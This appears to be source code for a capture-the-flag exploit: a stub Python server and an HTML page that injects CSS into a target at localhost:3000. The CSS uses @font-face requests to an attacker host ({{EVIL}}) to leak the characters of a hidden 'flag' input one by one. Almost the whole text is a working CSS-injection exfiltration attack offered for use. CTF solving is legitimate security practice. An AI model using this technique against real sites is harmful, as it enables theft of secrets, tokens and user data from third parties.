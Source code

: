 ```python:server.py

 
if __name__ == "__main__":
    thread = threading.Thread(target=solve)
    thread.start()
    app.run(port=9911)
```

```html:index.html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">

</head>
<body>
    <script>
        const INTERVAL = 1500;
        const sleep = s => new Promise(r => setTimeout(r, s))
        let w;
        (async () => {
            let used = await(await fetch("getused")).text();
            if(used === "") {
                let next_used = "{}";
                while(used != next_used) {
                    used = next_used;
                    const style = "<a is=x>}" + Array.from("abcdefghijklmnopqrstuvwxyz").filter(c => !used.includes(c)).map(c => `@font-face{font-family:${c};src:url({{EVIL}}used?v=${c});}[id=flag][value*=${c}]{font-family:${c}}`).join("");
                    w = open("http://localhost:3000/?" + style);
                    await sleep(INTERVAL);
                    next_used = await(await fetch("getused")).text();
                    w.close()
                }
            }

            let known = await(await fetch("getknown")).json();
            while(known[0].length !== 63) {
                const k = known[0];
                const candidates = Array.from("abcdefghijklmnopqrstuvwxyz0123456789_").map(c => k + c);
                let next_known = known;
                known = [];
                while(known.length != next_known.length) {
                    known = next_known;
                    const style = "<a is=x>}" + candidates.filter(c => !known.includes(c)).map(c => `@font-face{font-family:${c};src:url({{EVIL}}known?v=${c});}[id=flag][value*=${c}]{font-family:${c}}`).join("");
                    w = open("http://localhost:3000/?" + style);
                    await sleep(INTERVAL);
                    next_known = await(await fetch("getknown")).json();
                    w.close();
                }
                known = await(await fetch("complete?v=" + k)).json();
            }
        })()


    </script>
</body>
</html>
```
